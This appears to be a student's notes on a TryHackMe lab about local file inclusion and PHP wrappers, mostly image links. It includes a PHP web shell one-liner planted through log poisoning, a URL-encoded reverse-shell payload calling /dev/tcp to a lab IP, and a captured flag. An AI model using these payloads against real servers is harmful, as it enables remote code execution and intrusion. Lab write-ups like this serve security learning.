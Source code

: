 ![Pasted image
20240209021724.png](/home/aaron/Documents/thm/Pasted%20image%2020240209021724.png){.internal-embed
touched="true"}

### File Inclusion Types

![Pasted image
20240209021805.png](/home/aaron/Documents/thm/Pasted%20image%2020240209021805.png){.internal-embed
touched="true"}

### PHP WRAPPER

    PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.
    Copy

![Pasted image
20240209033546.png](/home/aaron/Documents/thm/Pasted%20image%2020240209033546.png){.internal-embed
touched="true"}

    Task 8 LFI2RCE - Wrappers

    I copied the `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` and submitted it to the server

    Copy

![Pasted image
20240209032424.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032424.png){.internal-embed
touched="true"}

    and then I used this payload to get a reverse shell 

    page=/var/log/apache2/access.log&&cmd=/bin/bash -c '0<%26196%3Bexec 196<>%2Fdev%2Ftcp%2F10.6.29.207%2F9001%3B sh <%26196 >%26196 2>%26196'

    this is just a url encoded payload i crafted from revshells.com
    Copy

![Pasted image
20240209032701.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032701.png){.internal-embed
touched="true"}

    THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}
    Copy

    and finally the most important part is mitigation
    Copy

**![Pasted image
20240209033150.png](/home/aaron/Documents/thm/Pasted%20image%2020240209033150.png){.internal-embed
touched="true"}**
